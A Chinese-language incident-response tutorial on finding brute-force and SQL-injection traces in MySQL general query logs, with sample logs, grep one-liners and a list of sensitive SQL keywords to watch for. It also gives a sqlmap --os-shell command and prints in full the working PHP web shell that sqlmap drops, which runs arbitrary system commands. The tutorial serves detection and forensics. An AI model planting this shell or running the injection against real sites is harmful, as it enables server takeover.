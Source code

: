 ## 第5篇:MySQL日志分析

常见的数据库攻击包括弱口令、SQL注入、提升权限、窃取备份等。对数据库日志进行分析，可以发现攻击行为，进一步还原攻击场景及追溯攻击源。

### 0x01 Mysql日志分析

general query log能记录成功连接和每次执行的查询，我们可以将它用作安全布防的一部分，为故障分析或黑客事件后的调查提供依据。

~~~
1、查看log配置信息
show variables like '%general%';
2、开启日志
SET GLOBAL general_log = 'On';
3、指定日志文件路径
#SET GLOBAL general_log_file = '/var/lib/mysql/mysql.log';
~~~

比如，当我访问 /test.php?id=1，此时我们得到这样的日志：

~~~
190604 14:46:14       14 Connect    root@localhost on 
           14 Init DB    test
           14 Query    SELECT * FROM admin WHERE id = 1
           14 Quit  `
~~~
我们按列来解析一下：
~~~
第一列:Time，时间列，前面一个是日期,后面一个是小时和分钟，有一些不显示的原因是因为这些sql语句几乎是同时执行的,所以就不另外记录时间了。
第二列:Id，就是show processlist出来的第一列的线程ID,对于长连接和一些比较耗时的sql语句,你可以精确找出究竟是那一条那一个线程在运行。
第三列:Command，操作类型，比如Connect就是连接数据库，Query就是查询数据库(增删查改都显示为查询)，可以特定过虑一些操作。
第四列:Argument，详细信息，例如 Connect    root@localhost on 意思就是连接数据库，如此类推,接下面的连上数据库之后,做了什么查询的操作。
~~~

### 0x02 登录成功/失败

我们来做个简单的测试吧，使用我以前自己开发的弱口令工具来扫一下，字典设置比较小，2个用户，4个密码，共8组。

![](images/log-5-1.png)

MySQL中的log记录是这样子：

~~~
Time                 Id        Command         Argument

190601 22:03:20	   98 Connect	root@192.168.204.1 on 
		   98 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		  103 Connect	mysql@192.168.204.1 on 
		  103 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  104 Connect	mysql@192.168.204.1 on 
		  104 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Connect	root@192.168.204.1 on 
		  101 Connect	root@192.168.204.1 on 
		  101 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		   99 Connect	root@192.168.204.1 on 
		   99 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		  105 Connect	mysql@192.168.204.1 on 
		  105 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Query	set autocommit=0
		  102 Connect	mysql@192.168.204.1 on 
		  102 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Quit	`
~~~

你知道在这个口令猜解过程中，哪个是成功的吗？

利用爆破工具，一个口令猜解成功的记录是这样子的：

~~~
190601 22:03:20     100 Connect	root@192.168.204.1 on 
	   100 Query	set autocommit=0
	   100 Quit
~~~

但是，如果你是用其他方式，可能会有一点点不一样的哦。

Navicat for MySQL登录：

~~~
190601 22:14:07	  106 Connect	root@192.168.204.1 on 
		         106 Query	SET NAMES utf8
		         106 Query	SHOW VARIABLES LIKE 'lower_case_%'
		         106 Query	SHOW VARIABLES LIKE 'profiling'
		         106 Query	SHOW DATABASES
~~~

命令行登录：

~~~
190601 22:17:25	  111 Connect	root@localhost on 
		         111 Query	select @@version_comment limit 1
190601 22:17:56	  111 Quit
~~~

这个差别在于，不同的数据库连接工具，它在连接数据库初始化的过程中是不同的。通过这样的差别，我们可以简单判断出用户是通过连接数据库的方式。

另外，不管你是爆破工具、Navicat for MySQL、还是命令行，登录失败都是一样的记录。

登录失败的记录：

~~~
102 Connect	mysql@192.168.204.1 on 
102 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
~~~

利用shell命令进行简单的分析：

~~~
#有哪些IP在爆破？
grep  "Access denied" mysql.log |cut -d "'" -f4|uniq -c|sort -nr
     27 192.168.204.1

#爆破用户名字典都有哪些？
grep  "Access denied" mysql.log |cut -d "'" -f2|uniq -c|sort -nr
     13 mysql
     12 root
      1 root
      1 mysql

~~~

在日志分析中，特别需要注意一些敏感的操作行为，比如删表、备库，读写文件等。关键词：drop table、drop function、lock tables、unlock tables、load_file() 、into outfile、into dumpfile。

敏感数据库表：SELECT * from mysql.user、SELECT * from mysql.func

### 0x03  SQL注入入侵痕迹

在利用SQL注入漏洞的过程中，我们会尝试利用sqlmap的--os-shell参数取得shell，如操作不慎，可能留下一些sqlmap创建的临时表和自定义函数。我们先来看一下sqlmap os-shell参数的用法以及原理：

1、构造一个SQL注入点，开启Burp监听8080端口

`sqlmap.py  -u http://192.168.204.164/sql.php?id=1 --os-shell --proxy=http://127.0.0.1:8080`

HTTP通讯过程如下：

![](images/log-5-3.png)

创建了一个临时文件tmpbwyov.php，通过访问这个木马执行系统命令，并返回到页面展示。

tmpbwyov.php：

<?php $c=$_REQUEST["cmd"];@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);$z=@ini_get('disable_functions');if(!empty($z)){$z=preg_replace('/[, ]+/',',',$z);$z=explode(',',$z);$z=array_map('trim',$z);}else{$z=array();}$c=$c." 2>&1\n";function f($n){global $z;return is_callable($n)and!in_array($n,$z);}if(f('system')){ob_start();system($c);$w=ob_get_contents();ob_end_clean();}elseif(f('proc_open')){$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);$w=NULL;while(!feof($t[1])){$w.=fread($t[1],512);}@proc_close($y);}elseif(f('shell_exec')){$w=shell_exec($c);}elseif(f('passthru')){ob_start();passthru($c);$w=ob_get_contents();ob_end_clean();}elseif(f('popen')){$x=popen($c,r);$w=NULL;if(is_resource($x)){while(!feof($x)){$w.=fread($x,512);}}@pclose($x);}elseif(f('exec')){$w=array();exec($c,$w);$w=join(chr(10),$w).chr(10);}else{$w=0;}print "<pre>".$w."</pre>";?>`

创建了一个临时表sqlmapoutput，调用存储过程执行系统命令将数据写入临时表，然后取临时表中的数据展示到前端。

通过查看网站目录中最近新建的可疑文件，可以判断是否发生过sql注入漏洞攻击事件。

检查方法：

1、检查网站目录下，是否存在一些木马文件：

![](images/log-5-4.png)

2、检查是否有UDF提权、MOF提权痕迹

检查目录是否有异常文件

mysql\lib\plugin 

c:/windows/system32/wbem/mof/

检查函数是否删除

`select * from mysql.func`

3、结合web日志分析。

